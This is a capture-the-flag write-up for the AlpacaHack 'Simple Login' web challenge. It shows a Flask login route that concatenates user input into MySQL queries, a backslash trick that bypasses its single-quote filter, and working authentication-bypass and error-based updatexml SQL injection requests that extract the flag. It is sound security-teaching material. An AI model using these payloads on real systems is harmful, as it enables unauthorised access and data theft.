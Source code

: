 # Simple Login

<details><summary><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- 84 solves / 108 points
- Author: @ark
- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

A simple login service :)

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901170143.png)

## Enumeration

Index page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165716.png)

When we go to `/`, it redirected us to `/login`, which means we'll need to login first.

Let's try some random credentials, such as `admin:admin`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165752.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165800.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165842.png)

When we clicked the "Login" button, it'll send a POST request to `/login` with parameter `username` and `password`.

As expected, since the random credential that we just submitted is incorrect, it responded to us with "No user".

Hmm... Because this kind of request usually done with a database. Let's try some **SQL injection** payloads, like `' OR 1=1-- -`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901170259.png)

This time it responded with "Do not try SQL injection". Looks like the web application is filtering out SQL injection payload! To figure what does the filter do, we can view this web application's source code.

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/Simple-Login/simple-login.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-2-(Web)/Simple-Login)-[2024.09.01|17:05:36(HKT)]
└> file simple-login.tar.gz 
simple-login.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 20480
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-2-(Web)/Simple-Login)-[2024.09.01|17:05:38(HKT)]
└> tar xvzf simple-login.tar.gz 
simple-login/
simple-login/db/
simple-login/db/init.sql
simple-login/compose.yaml
simple-login/web/
simple-login/web/app.py
simple-login/web/templates/
simple-login/web/templates/index.html
simple-login/web/templates/login.html
simple-login/web/Dockerfile
simple-login/web/requirements.txt
```

After reading the source code a little, we can have the following findings:
1. This web application is written in Python with [Flask](https://flask.palletsprojects.com/en/3.0.x/) web application framework
2. This web application uses a DBMS (Database Management System) called [MySQL](https://www.mysql.com/), and it uses [PyMySQL](https://github.com/PyMySQL/PyMySQL) for the client connection

Let's deep dive into those logics!

First off, what's our objective? Where's the flag?

In `simple-login/db/init.sql`, we can see that the flag is inserted into table `flag`:

```sql
USE chall;

DROP TABLE IF EXISTS flag;
CREATE TABLE IF NOT EXISTS flag (
    value VARCHAR(128) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_bin;

-- On the remote server, a real flag is inserted.
INSERT INTO flag (value) VALUES ('Alpaca{REDACTED}');
[...]
```

So, our goal is this challenge is to somehow **exfiltrate table `flag`'s record**.

Now let's go to `simple-login/web/app.py`. In there, it has 2 routes. However, only 1 of them are really interesting to us, which is POST route `/login`:

```python
@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")

        if username is None or password is None:
            return "Missing required parameters", 400
        if len(username) > 64 or len(password) > 64:
            return "Too long parameters", 400
        if "'" in username or "'" in password:
            return "Do not try SQL injection 🤗", 400

        conn = None
        try:
            conn = db()
            with conn.cursor() as cursor:
                cursor.execute(
                    f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
                )
                user = cursor.fetchone()
        [...]
    else:
        [...]
```

Right off the bat, we can see there's a SQL injection vulnerability, as this route **directly concatenates our POST parameter `username` and `password` value into the raw SQL query**.

However, this SQL injection vulnerability is not that straight forward to be exploited, as it has this filter:

```python
@app.route("/login", methods=["GET", "POST"])
def login():
    [...]
    if "'" in username or "'" in password:
        return "Do not try SQL injection 🤗", 400
```

As you can see, if our parameter's value **contains** single quote (`'`) character, it'll not execute the raw SQL query.

## Exploitation

Can we bypass this filter? Well, yes!

To do so, we can **use a backslash character (`\`) in the `username` parameter** to **escape the string**, and then we can inject our SQL injection payload into the `password` parameter!

**Original SQL query:**
```sql
SELECT * FROM users WHERE username = '{username}' AND password = '{password}'
```

**Our payload:**
```sql
SELECT * FROM users WHERE username = '\' AND password = ' OR 1=1-- -'
```

Nice! Let's test this!

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

username=\&password=+OR+1%3d1--+-
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172030.png)

We now successfully bypassed the authenticated via SQL injection!

But wait, the flag is in the table `flag`...

To exfiltrate the flag record, we can use an error-based SQL injection payload, such as the following:

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

username=\&password=+and+updatexml(null,concat(0x0a,version()),null)-- -
```

> Note: The above payload is from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based---updatexml-function).

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172352.png)

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

username=\&password=+and+updatexml(null,concat(0x0a,(select+*+from+flag)),null)--+-
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172556.png)

Although the output is truncated, we can try to remove the new line character (`0x0a`) in the `concat` function:

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

username=\&password=+and+updatexml(null,concat((select+*+from+flag)),null)--+-
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901174212.png)

- **Flag: `Alpaca{SQLi_with0ut_5ingle_quot3s!}`**

## Conclusion

What we've learned:

1. SQL injection without single quotes